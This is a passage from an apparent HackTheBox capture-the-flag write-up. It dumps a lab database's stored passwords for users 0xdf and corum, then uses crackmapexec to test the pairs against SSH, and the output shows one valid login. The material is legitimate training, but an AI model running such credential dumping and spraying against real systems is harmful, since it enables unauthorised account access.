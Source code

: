 ```bash

select * from passwords;

+----+---------------------+---------------------+----------------+----------+----------------------+---------+
| id | created_date        | last_updated_data   | url            | username | password             | user_id |
+----+---------------------+---------------------+----------------+----------+----------------------+---------+
|  3 | 2022-12-02 21:21:32 | 2022-12-02 21:21:32 | hackthebox.com | 0xdf     | 762b430d32eea2f12970 |       1 |
|  4 | 2022-12-02 21:22:55 | 2022-12-02 21:22:55 | mgoblog.com    | 0xdf     | 5b133f7a6a1c180646cb |       1 |
|  6 | 2022-12-02 21:24:44 | 2022-12-02 21:24:44 | mgoblog        | corum    | 47ed1e73c955de230a1d |       2 |
|  7 | 2022-12-02 21:25:15 | 2022-12-02 21:25:15 | ticketmaster   | corum    | 9799588839ed0f98c211 |       2 |
|  8 | 2022-12-02 21:25:27 | 2022-12-02 21:25:27 | agile          | corum    | 5db7caa1d13cc37c9fc2 |       2 |
+----+---------------------+---------------------+----------------+----------+----------------------+---------+

```

We can create a users.txt and password.txt file to see which password logs us in:

user.txt:

```bash
0xdf
0xdf
corum
corum
corum
```

password.txt:

```bash
762b430d32eea2f12970
5b133f7a6a1c180646cb
47ed1e73c955de230a1d
9799588839ed0f98c211
5db7caa1d13cc37c9fc2
```

Now we can use cme to check which password is valid to log on to ssh:

```bash
cme ssh 10.129.228.212 -u user.txt -p password.txt --no-bruteforce #nobrutefoce matches the user to password line by line

result:
SSH         10.129.228.212  22     10.129.228.212   [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.1
SSH         10.129.228.212  22     10.129.228.212   [-] 0xdf:762b430d32eea2f12970 Authentication failed.
SSH         10.129.228.212  22     10.129.228.212   [-] 0xdf:5b133f7a6a1c180646cb Authentication failed.
SSH         10.129.228.212  22     10.129.228.212   [-] corum:47ed1e73c955de230a1d Authentication failed.
SSH         10.129.228.212  22     10.129.228.212   [-] corum:9799588839ed0f98c211 Authentication failed.
SSH         10.129.228.212  22     10.129.228.212   [+] corum:5db7caa1d13cc37c9fc2 
```
